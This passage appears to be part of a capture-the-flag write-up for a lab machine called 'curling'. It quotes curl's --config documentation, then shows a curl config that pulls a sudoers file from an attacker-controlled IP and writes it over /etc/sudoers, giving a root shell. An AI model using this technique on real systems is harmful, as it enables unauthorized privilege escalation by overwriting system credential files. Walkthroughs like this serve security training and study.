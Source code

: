 ```
-K, --config <file>

       Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they were provided on the command line.

       [... SNIP ...]

       # --- Example file ---
       # this is a comment
       url = "example.com"
       output = "curlhere.html"
       user-agent = "superagent/1.0"
```
so now we can edit the input file as follows:
```
url = "http://10.10.14.18/sudoers"
output = "/etc/sudoers"
user-agent = "b0d/1.0"
```
And host on our machine a sudoers file containing the following:
```
# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL
```
so, now, to become root, we can simply:  
```
floris@curling:~/admin-area$ sudo su -
[sudo] password for floris:
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```
and we own root.
